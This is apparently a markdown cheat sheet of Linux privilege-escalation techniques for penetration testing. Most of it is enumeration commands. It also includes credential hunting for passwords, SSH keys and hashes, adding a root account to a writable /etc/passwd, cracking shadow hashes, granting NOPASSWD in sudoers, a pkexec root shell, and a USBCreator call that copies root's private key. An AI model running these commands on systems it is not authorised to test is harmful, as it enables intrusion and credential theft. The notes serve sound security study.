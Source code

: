 ```yaml
---
icon: stethoscope
---
```


# Enumeration

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html" %}

<details>

<summary><mark style="color:purple;"><strong><code>Basic</code></strong></mark></summary>

{% code title="Check user permissions" %}
```bash
sudo -l
```
{% endcode %}

{% code title="User with shells" %}
```sh
grep "sh$" /etc/passwd
```
{% endcode %}

{% code title="Check hostname" %}
```sh
hostname -I
```
{% endcode %}

{% code title="Check the internal network" %}
```sh
ifconfig
```
{% endcode %}

{% code title="Check mounted devices" %}
```sh
mount
```
{% endcode %}

{% code title="Container processes " lineNumbers="true" %}
```sh
ps auxww | grep docker
ps auxww | grep lxd
```
{% endcode %}

{% code title="Read crontab file" %}
```sh
cat /etc/crontab
```
{% endcode %}

{% code title="Check Services running" %}
```sh
ls /etc/init.d
```
{% endcode %}

{% code title="Check System info" %}
```sh
uname -a
```
{% endcode %}

{% code title="Check groups file" %}
```powershell
cat /etc/group
```
{% endcode %}

{% code title="Show listening ports" %}
```sh
netstat -tuln
```
{% endcode %}

{% code title="Listen to the localhost" %}
```sh
netstat -an -p tcp
```
{% endcode %}

{% code title="Check binaries with capabilities" %}
```sh
getcap -r / 2>/dev/null
```
{% endcode %}

{% code title="SUID/SETGID binaries" %}
```sh
find / -perm -4000 -or -perm -2000 2>/dev/null
```
{% endcode %}

{% code title=" Traces library function calls" overflow="wrap" %}
```sh
ltrace ProgramName
```
{% endcode %}

{% code title="Search Kernel for Exploits" %}
```sh
searchsploit "Linux Kernel" | grep <version>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Scan the local network</code></strong></mark></summary>

* <mark style="color:purple;">Find one many hosts there are in the network by doing a</mark> <mark style="color:orange;">**`ping sweep`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
for i in {1..254}; do (ping -c 1 192.168.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`nc`**</mark> <mark style="color:purple;">is installed can be use to scan for open ports:</mark>

{% code overflow="wrap" %}
```sh
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v refused | tee scan
```
{% endcode %}

{% code title="UDP scan" overflow="wrap" %}
```sh
nc -uzv 192.168.0.1 1-65535 2>&1 | grep -v refused
```
{% endcode %}

#### [<kbd><mark style="color:orange;">Nmap Binary<mark style="color:orange;"></kbd>](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64)

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Credential Hunting</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:orange;">`grep`</mark>

* <mark style="color:purple;">Search for the string</mark> <mark style="color:orange;">**`pass`**</mark> <mark style="color:purple;">(case-insensitive) in all files and directories recursively:</mark>

{% code overflow="wrap" %}
```sh
grep -iR "pass" * 2>/dev/null
```
{% endcode %}

* <mark style="color:purple;">Search for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**the string**</mark>**&#x20;**<mark style="color:orange;">**`password`**</mark> <mark style="color:purple;">in files with double extension, recursively:</mark>

```sh
grep password .*.* -r 2>/dev/null
```

* <mark style="color:purple;">Search for</mark> <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">keys recursively from the current directory you are in:</mark>

{% code overflow="wrap" %}
```sh
grep -iR -E "(ssh-(rsa|ed25519|dss|ecdsa|rsa1)[ ]+[A-Za-z0-9+/=]+|-----BEGIN [A-Z ]+PRIVATE KEY-----)" * 2>/dev/null
```
{% endcode %}

* <mark style="color:purple;">Is also possible to look for</mark> <mark style="color:orange;">**`hashes`**</mark> <mark style="color:purple;">by using regex to look for the hash length:</mark>

{% code title="MD5 hashes" %}
```sh
grep -aPo '[a-fA-F0-9]{32}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-1" %}
```sh
grep -aPo '[a-fA-F0-9]{40}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-256" %}
```sh
grep -aPo '[a-fA-F0-9]{64}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-512" %}
```sh
grep -aPo '[a-fA-F0-9]{128}' /DESIRED/PATH
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Important Files</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:orange;">`/etc/passwd`</mark>

* <mark style="color:purple;">If is possible to write the file:</mark>

{% code title="Generate the password hash" overflow="wrap" %}
```sh
openssl passwd -1 tokyo
```
{% endcode %}

{% code title="Add the line " overflow="wrap" %}
```sh
echo 'tokyo:$1$iLayOiAd$8dHGiU.Qvk/uqjnoWzRpm/:0:0:tokyo:/root:/bin/bash' >> passwd
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}


### <mark style="color:orange;">`/etc/shadow`</mark>

{% code title="Create the Hash file" overflow="wrap" %}
```sh
echo 'zoe:$y$j9T$Ct0y5TNQ/sv95CFPz510O/$7YtCDOBISfngZeQ3rsDkRcw2XTFDgHBkxDpuhyBLNO1:1002:1002:zoe:/home/zoe:/bin/bash' > shadowHash.txt
```
{% endcode %}

{% code title="Crack the hash" overflow="wrap" %}
```sh
john --wordlist=~/Documents/Wordlists/rockyou.txt shadow.txt --format=crypt
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}


### <mark style="color:orange;">**`/var/log`**</mark>

* <mark style="color:orange;">**`adm`**</mark> <mark style="color:purple;">group can read log files.</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:orange;">**`/etc/sudoers`**</mark>

{% code title="Try to read it" %}
```sh
cat /etc/sudoers
```
{% endcode %}

* <mark style="color:purple;">If the file is read-only, you need to change its permissions to allow write access:</mark>

```sh
chmod +w /etc/sudoers
```

* <mark style="color:purple;">Add the following line:</mark>

```
yourUser   ALL=(ALL) NOPASSWD: ALL
```

* <mark style="color:purple;">Restore the original file permissions to make it read-only again:</mark>

```sh
chmod 440 /mnt/etc/sudoers
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Polkit</code></strong></mark></summary>

{% code title="Check policy" overflow="wrap" %}
```sh
cat /etc/polkit-1/localauthority.conf.d
```
{% endcode %}

{% code title="Become root" overflow="wrap" %}
```sh
pkexec "/bin/sh"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>USBCreator</code></strong></mark></summary>

* <mark style="color:purple;">Allows to over write files with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">permissions:</mark>

{% code title="Copy root private key" overflow="wrap" %}
```sh
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
```
{% endcode %}

</details>
